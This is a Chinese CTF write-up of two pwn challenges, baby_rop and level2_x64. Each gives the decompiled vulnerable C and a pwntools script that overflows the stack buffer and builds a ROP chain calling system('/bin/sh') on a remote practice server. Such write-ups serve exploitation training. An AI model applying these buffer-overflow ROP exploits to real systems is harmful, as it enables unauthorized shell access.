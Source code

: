 [TOC]



## 0x10.[HarekazeCTF2019]baby_rop

没后门函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", v4);
  printf("Welcome to the Pwn World, %s!\n", v4);
  return 0;
}
```

```python
from pwn import *
context(log_level='DEBUG')
#io = process("./babyrop")
io = remote('node3.buuoj.cn',28280)
elf = ELF('./babyrop')
io.recv()
sys_plt = elf.plt["system"]
pop_rdi_ret =0x0400683
bin_sh = 0x0601048
payload = 'a'*0x18+ p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)+p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

## 0x11.jarvisoj_level2_x64

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF
  system("echo Input:");
  return read(0, buf, 0x200uLL);
}
```

有/bin/sh字符串，没啥写的。

```python
from pwn import *
#io = process("./level2_x64")
io = remote('node3.buuoj.cn',28783)
elf = ELF("./level2_x64")
io.recv()
sys_plt = elf.plt['system']
pop_rdi_ret = 0x0004006b3
bin_sh = 0x00600A90
payload = 0x88*'a' +p64(pop_rdi_ret)+p64(bin_sh)+p64(sys_plt)
io.sendline(payload)
io.interactive()
```
